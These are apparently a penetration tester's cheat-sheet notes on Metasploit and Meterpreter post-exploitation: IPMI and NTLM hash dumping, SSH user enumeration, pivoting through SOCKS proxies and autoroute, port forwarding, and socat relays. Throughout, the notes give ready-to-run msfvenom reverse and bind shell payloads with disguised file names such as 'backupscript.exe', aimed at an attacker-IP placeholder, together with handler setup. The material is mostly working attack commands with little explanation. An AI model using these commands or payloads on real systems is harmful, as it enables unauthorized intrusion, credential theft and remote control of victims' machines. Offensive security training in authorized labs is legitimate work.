 # Modules
## IPMI Hash Dump
[IPMI 2.0 RAKP Remote SHA1 Password Hash Retrieval](https://www.rapid7.com/db/modules/auxiliary/scanner/ipmi/ipmi_dumphashes/)
```shell-session
msf> use auxiliary/scanner/ipmi/ipmi_dumphashes
```
## Local Exploit Suggestor
```shell-session
msf> use multi/recon/local_exploit_suggester
```
## SSH
### SSH User Enumeration
```metasploit
msf> use auxiliary/scanner/ssh/ssh_enumusers
```
## #SOCKS Proxy
Use Metasploit's `socks_proxy` to configure a local proxy on our attack host:
```shell-session
msf6 > use auxiliary/server/socks_proxy
```
- Enable SOCKS listener in `/etc/proxychains.conf`:
```TXT
socks4 	127.0.0.1 <PORT>
```
- Configure `socks_proxy` to route all traffic via our Meterpreter session using `post/multi/manage/autoroute`:
```shell-session
msf6 > use post/multi/manage/autoroute
msf6 post(multi/manage/autoroute) > set SESSION 1
msf6 post(multi/manage/autoroute) > set SUBNET 172.16.5.0
msf6 post(multi/manage/autoroute) > run
```
- It is also possible to add routes with `autoroute`:
```shell-session
meterpreter > run autoroute -s 172.16.5.0/23
```
## Ping Sweep
```shell-session
meterpreter > run post/multi/gather/ping_sweep RHOSTS=<REMOTER-IP>/23
```
# Meterpreter
## Dump NTLM hashes
```shell-session
meterpreter> load kiwi
meterpreter> lsa_dump_sam
```
## Port Forwarding
We can use any of the below methods to establish local port forwarding
### 1. Using [multi/handler](https://www.rapid7.com/db/modules/exploit/multi/handler/)
1. Create Payload for Ubuntu pivot host
```shell-session
$ msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=<ATTACKER-IP> -f elf -o backupjob LPORT=8080
```
2. Start a `multi/handler`, also known as a Generic Payload Handler
```shell-session
msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set lhost 0.0.0.0
msf6 exploit(multi/handler) > set lport 8080
msf6 exploit(multi/handler) > set payload linux/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > run
```
3. Copy binary to Ubuntu pivot host and execute to gain a Meterpreter session
4. Now we can perform enumeration scans through this pivot host
```shell-session
meterpreter > run post/multi/gather/ping_sweep RHOSTS=172.16.5.0/23
```
### 2. Using [[#SOCKS Proxy]]
If host's firewall blocks ICMP, we can perform TCP scan on remoter `172.16.5.0/23` IP range with Nmap. And instead of using SSH for port forwarding we can:
1. Use Metasploit `socks_proxy` to configure a local proxy on our attack host:
```shell-session
msf6 > use auxiliary/server/socks_proxy
msf6 auxiliary(server/socks_proxy) > set SRVPORT 9050
msf6 auxiliary(server/socks_proxy) > set SRVHOST 0.0.0.0
msf6 auxiliary(server/socks_proxy) > set version <4a/5>
msf6 auxiliary(server/socks_proxy) > run
```
2. Enable SOCKS listener in `/etc/proxychains.conf`:
```TXT
socks4 	127.0.0.1 9050
```
3. Configure `socks_proxy` to route all traffic via our Meterpreter session using `post/multi/manage/autoroute`:
```shell-session
msf6 > use post/multi/manage/autoroute
msf6 post(multi/manage/autoroute) > set SESSION 1
msf6 post(multi/manage/autoroute) > set SUBNET 172.16.5.0
msf6 post(multi/manage/autoroute) > run

[!] SESSION may not be compatible with this module:
[!]  * incompatible session platform: linux
[*] Running module against 10.129.202.64
[*] Searching for subnets to autoroute.
[+] Route added to subnet 10.129.0.0/255.255.0.0 from host's routing table.
[+] Route added to subnet 172.16.5.0/255.255.254.0 from host's routing table.
[*] Post module execution completed
```
- It is also possible to add routes with `autoroute`:
```shell-session
meterpreter > run autoroute -s 172.16.5.0/23

[!] Meterpreter scripts are deprecated. Try post/multi/manage/autoroute.
[!] Example: run post/multi/manage/autoroute OPTION=value [...]
[*] Adding a route to 172.16.5.0/255.255.254.0...
[+] Added route to 172.16.5.0/255.255.254.0 via 10.129.202.64
[*] Use the -p option to list all active routes
```
- Now we can run any `COMMAND` via proxychains to route it via our Meterpreter session.
```shell-session
$ proxychains nmap 172.16.5.19 -p3389 -sT -v -Pn
```
>Try using with **sudo** if doesn't relay
### 3. Using `portfwd`
```shell-session
meterpreter > portfwd add -l <PORT> -p 3389 -r 172.16.5.19
[*] Local TCP relay created: :3300 <-> 172.16.5.19:3389
```
With this we can simply run any command on `<PORT>` to direct it to port 3389 on remote system.
```shell-session
$ xfreerdp /v:localhost:<PORT> /u:victor /p:pass@123
```
## Reverse Port Forwarding
We can listen on any remote port and forward its received data to our local port using the below methods.
### 1. Using `portfwd`
Create a reverse port forwarding from remote pivot
```shell-session
meterpreter > portfwd add -R -l 8081 -p 1234 -L <ATTACKER-IP>
[*] Reverse TCP relay created: (remote)[::]:1234 -> (local)<ATTACKER-IP>:8081
```
Now to execute commands on remoter Windows system and receive it on our attacking system:
1. Configure & start multi/handler: 
```shell-session
meterpreter > bg
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LPORT 8081
msf6 exploit(multi/handler) > set LHOST 0.0.0.0
msf6 exploit(multi/handler) > run
```
2. Create payload for remoter Windows system to receive a connection back to pivot Ubuntu system:
```shell-session
$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<PIVOT-IP> -f exe -o backupscript.exe LPORT=1234
```
- Executing the payload on remoter Windows system should give us a shell back.
### 2. Using [[Socat]]
#### - Reverse Shell
1. Start a reverse port forwarding from `Ubuntu:8080` to `Kali:80`
```shell-session
ubuntu@Webserver:~$ socat TCP4-LISTEN:8080,fork TCP4:<ATTACKER-IP>:80
```
2. Create the Windows payload again and [[File Transfer|transfer]] it to Windows system:
```shell-session
$ msfvenom -p windows/x64/meterpreter/reverse_https LHOST=172.16.5.129 -f exe -o backupscript.exe LPORT=8080
```
3. Configure & start multi/handler: 
```shell-session
msf6 > use exploit/multi/handler
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_https
msf6 exploit(multi/handler) > set lhost 0.0.0.0
msf6 exploit(multi/handler) > set lport 80
msf6 exploit(multi/handler) > run
```
- Executing the payload on remoter Windows system should give us a shell back.
#### - Bind Shell
Similar to above:
1. Use [[Socat#Redirecting with a Bind Shell|Socat's - Bind Shell Listener]]:
```shell-session
ubuntu@Webserver:~$ socat TCP4-LISTEN:8080,fork TCP4:<REMOTER-IP>:8443
```
2. Create respective bind payload:
```shell-session
$ msfvenom -p windows/x64/meterpreter/bind_tcp -f exe -o backupscript.exe LPORT=8443
```
3. Configure & start multi/handler:
```shell-session
msf6 > use exploit/multi/handler
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/bind_tcp
msf6 exploit(multi/handler) > set RHOST <UBUNTU-IP>
msf6 exploit(multi/handler) > set LPORT 8080
msf6 exploit(multi/handler) > run
```